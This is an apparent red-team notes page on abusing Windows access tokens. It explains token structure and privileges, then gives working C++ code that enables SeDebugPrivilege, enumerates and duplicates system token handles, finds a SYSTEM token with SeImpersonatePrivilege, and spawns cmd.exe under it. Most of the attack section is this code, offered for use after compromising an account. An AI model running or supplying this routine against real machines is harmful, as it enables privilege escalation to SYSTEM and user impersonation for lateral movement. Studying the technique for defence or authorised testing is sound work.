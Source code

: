 ```yaml
---
title: Playing with Tokens
category: User Impersonation
order: 1
---
```


An access token in Windows is a data structure used by the operating system to represent the security context of a process or thread. It contains information about the identity and privileges of the user or entity associated with the process or thread. Access tokens are essential for managing access control and ensuring security within the Windows environment.

Abuse of certain tokens allows an attacker to either escalate privileges on the system or even impersonate users to move laterally across the network.

Key features of an Access Token:

* **User Identity**: Identifies the user account associated with the token, usually by a Security Identifier (SID).
* **Privileges**: Lists the special rights or abilities assigned to the user or the process.

```
SeCreateTokenPrivilege
SeAssignPrimaryTokenPrivilege
SeLockMemoryPrivilege
SeIncreaseQuotaPrivilege
SeTcbPrivilege
SeSecurityPrivilege
SeTakeOwnershipPrivilege
SeLoadDriverPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeProfileSingleProcessPrivilege
SeIncreaseBasePriorityPrivilege
SeCreatePagefilePrivilege
SeCreatePermanentPrivilege
SeBackupPrivilege
SeRestorePrivilege
SeShutdownPrivilege
SeDebugPrivilege
SeAuditPrivilege
SeSystemEnvironmentPrivilege
SeChangeNotifyPrivilege
SeUndockPrivilege
SeManageVolumePrivilege
SeImpersonatePrivilege
```

* **Groups**: Specifies the groups to which the user belongs (e.g., `Administrators`, `Users`, `Guests`).
* **Default Owner**: Indicates the default owner for objects created by the process or thread.
* **Security Descriptors**: Defines how access to objects (like files or registry keys) is granted or denied based on the token.
* **Token Type**: Indicates whether the token is a `primary token` (used by a process) or an `impersonation` token (used by a thread to assume a different security context temporarily).
* **Source Information**: Contains details about the source of the token, such as the process or service that created it.
* **Session ID**: Links the token to the user's logon session.


If we achieve a user with `SeImpersonationPrivilege` which normally is enabled on services accounts, or we already pwned a local Administrator, we can Impersonate a logged on user.


We need `SE_DEBUG_NAME` SeDebugPrivilege in order to see all process information of the machine, to do that we should need a high privilege session.

```cpp
BOOL SetPrivilege(LPCTSTR lpszPrivilege, BOOL bEnablePrivilege) {
	HANDLE hToken;
    TOKEN_PRIVILEGES tp;
    LUID luid;

	if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken)) {
		printf("OpenProcessToken() failed!\n");
		return FALSE;
	}

    if ( !LookupPrivilegeValue( 
            NULL,            // lookup privilege on local system
            lpszPrivilege,   // privilege to lookup 
            &luid ) )        // receives LUID of privilege
    {
        printf("LookupPrivilegeValue error: %u\n", GetLastError() ); 
        return FALSE; 
    }
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;
    if (bEnablePrivilege)
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    else
        tp.Privileges[0].Attributes = 0;

    if ( !AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES) NULL, (PDWORD) NULL) ) { 
          printf("AdjustTokenPrivileges error: %u\n", GetLastError() ); 
          return FALSE; 
    } 

    if (GetLastError() == ERROR_NOT_ALL_ASSIGNED) {
          printf("The token does not have the specified privilege.\n");
          return FALSE;
    } 
    return TRUE;
}

int main(int argc, char ** argv) {
    
    if(SetPrivilege(SE_DEBUG_NAME, ENABLE)){
        ListHandles();
    }
    return 0;
}
```


We want to list all the handles of the system. You can get more info on the following section:

* [https://benjugat.github.io/rtnotes/malware/object-enumeration/handle/](https://benjugat.github.io/rtnotes/malware/object-enumeration/handle/)


`NtDuplicateObject` is used to create a handle that duplicate of the specified source handle, useful for query it.

```cpp
typedef NTSTATUS (NTAPI * t_NtDuplicateObject)(
    HANDLE SourceProcessHandle,
    HANDLE SourceHandle,
    HANDLE TargetProcessHandle,
    PHANDLE TargetHandle,
    ACCESS_MASK DesiredAccess,
    ULONG Attributes,
    ULONG Options
);
```

Once enumerated all the handlers we can filter `ObjectTypeNumer to 0x5` to obtain all the tokens, remember we need to duplicate the handler in order to impersonate it.

```cpp
#define HANDLE_TOKEN 0x05
...
if(handle.ObjectTypeNumber == HANDLE_TOKEN){
    // Duplicate the handle to query it
    hProc = OpenProcess(PROCESS_DUP_HANDLE | PROCESS_QUERY_INFORMATION, FALSE, handle.ProcessId);
    if((pNtDuplicateObject(hProc, (void *) handle.Handle, GetCurrentProcess(), &dupHandle, 0, 0, DUPLICATE_SAME_ACCESS)) < 0){
        continue;
    }

    if(ListHandleToken(dupHandle) == 1){
        CloseHandle(dupHandle);
        break;
    }
    CloseHandle(dupHandle);
}
```

At that moment we have all the access tokens of the system, we need two things, the owner or the context and the privileges.

`GetTokenInformation`function retrieves a specified type of information about an access token. The calling process must have appropriate access rights to obtain the information

* [https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-gettokeninformation](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-gettokeninformation)

```cpp
BOOL GetTokenInformation(
  [in]            HANDLE                  TokenHandle,
  [in]            TOKEN_INFORMATION_CLASS TokenInformationClass,
  [out, optional] LPVOID                  TokenInformation,
  [in]            DWORD                   TokenInformationLength,
  [out]           PDWORD                  ReturnLength
);
```
We need to specify two different `TOKEN_INFORMATION_CLASS`: `TokenUser` and `TokenPrivileges`.

These will retrieve these token structures:

```cpp
typedef struct _TOKEN_USER {
  SID_AND_ATTRIBUTES User;
} TOKEN_USER, *PTOKEN_USER;

typedef struct _TOKEN_PRIVILEGES {
  DWORD               PrivilegeCount;
  LUID_AND_ATTRIBUTES Privileges[ANYSIZE_ARRAY];
} TOKEN_PRIVILEGES, *PTOKEN_PRIVILEGES;
```

Finally with the help of `LookupAccountSid` and `LookupPrivilegeNameA` we are going to be able to translate the `SID_AND_ATTRIBUTES` and `LUID_AND_ATTRIBUTES` structure to printable ones.

So, knowing the context of the user, and having `SeImpersonatePrivilege` rights on the token we should be able to impersonate a user, which can be easily filtered on the following code.

```cpp
int ListHandleToken(HANDLE hDup){
    TOKEN_USER * tInfo;
    DWORD dwSize = 0;
    TOKEN_PRIVILEGES * tPriv;
    DWORD dwSize2 = 0;
    STARTUPINFOW si = { sizeof(STARTUPINFOW) };
    PROCESS_INFORMATION pi;

    // QUERY TOKEN_USER
    GetTokenInformation(hDup, TokenUser, NULL, 0, &dwSize);
    tInfo = (TOKEN_USER *)malloc(dwSize);
    if(GetTokenInformation(hDup, TokenUser, tInfo, dwSize, &dwSize)==0){
        printf("Error 0x%x\n",GetLastError());
    }
    TCHAR name[256], domain[256];
    DWORD nameSize = 256, domainSize = 256;
    SID_NAME_USE sidType;
    
    if (LookupAccountSid(NULL, tInfo->User.Sid, name, &nameSize, domain, &domainSize, &sidType)) {
        printf("%s\\%s\n",domain,name); 
        // TOKEN from NT AUTHORITY\SYSTEM
        if(strcmp(name, "SYSTEM") == 0){
            // QUERY TOKEN_PRIVILEGES
            GetTokenInformation(hDup, TokenPrivileges, NULL, 0, &dwSize2);
            tPriv = (TOKEN_PRIVILEGES *)malloc(dwSize2);
            if(GetTokenInformation(hDup, TokenPrivileges, tPriv, dwSize2, &dwSize2)==0){
                printf("Error 0x%x\n",GetLastError());
            }
            for(int i=0; i<tPriv->PrivilegeCount; i++){
                LUID_AND_ATTRIBUTES priv = tPriv->Privileges[i];
                char privName[256];
                DWORD size = sizeof(privName);
                if (LookupPrivilegeNameA(NULL, &priv.Luid, privName, &size)) {
                    printf("\tPriv - > %s\n", privName);

                    // SeImpersonatePrivilege Token
                    if(strcmp(privName, "SeImpersonatePrivilege")==0){
                        ImpersonateLoggedOnUser(hDup);
                        if(CreateProcessWithTokenW(hDup, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &si, &pi)){
                            printf("[+] CMD launched!\n");
                            RevertToSelf();
                            return 1;
                        }else{ 
                            printf("[-] Error-> 0x%x\n", GetLastError());
                        }
                    }
                }
            }
        }
    }
    return 0;
}
```

![](/rtnotes/images/abusetokens.png)
